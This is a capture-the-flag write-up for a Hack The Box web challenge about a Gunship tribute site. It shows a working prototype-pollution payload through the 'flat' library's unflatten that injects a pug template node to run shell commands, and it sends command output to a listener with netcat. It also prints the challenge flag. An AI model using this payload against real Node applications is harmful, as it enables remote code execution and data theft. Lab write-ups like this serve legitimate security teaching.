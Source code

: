 > A city of lights, with retrofuturistic 80s peoples, and coffee, and drinks from another world...
> all the wooing in the world to make you feel more lonely...
> this ride ends here, with a tribute page of the British synthwave band called Gunship. :musical_note:

> Authors: **[makelaris][author-profile-1] & [makelarisjr][author-profile-2]**

## Polluting Gunship

Well the website has a single button: it sends a serialized json object
to `/api/submit`:

```javascript
fetch('/api/submit', {
    method: 'POST',
    body: JSON.stringify({
        'artist.name': document.querySelector('input[type=text]').value
    }),
    headers: {'Content-Type': 'application/json'}
})
```

The server then processes the json object with the `flat` library:

```javascript
const { artist } = unflatten(req.body);
```

With this, we can pollute the Object properties! Hacktrick has a [great article][hacktricks]
about prototype pollution.

In this case, we want to modify the `block` attribute which is evaluated when
`pug` calls `compile`:

```javascript
pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
```

So we capture the POST request to `/api/submit` in BurpSuite and add:

```json
{
    "artist.name":"Westaway",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`ls -lah |nc -w 3 172.17.0.1 9876`)"}
}
```

After moving the payload to `waste-away.json`, the query becomes a clean curl command:

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: localhost:1337' \
    -H $'Content-Type: application/json' \
    -H $'Accept-Encoding: gzip, deflate' \
    --data-binary $'@waste-away.json' \
    $'http://localhost:1337/api/submit'
```

The file can be uploaded with Netcat too, through Ngrok for example.

> HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}

[author-profile-1]: https://app.hackthebox.eu/users/107
[author-profile-1]: https://app.hackthebox.eu/users/95
[hacktricks]: https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution
 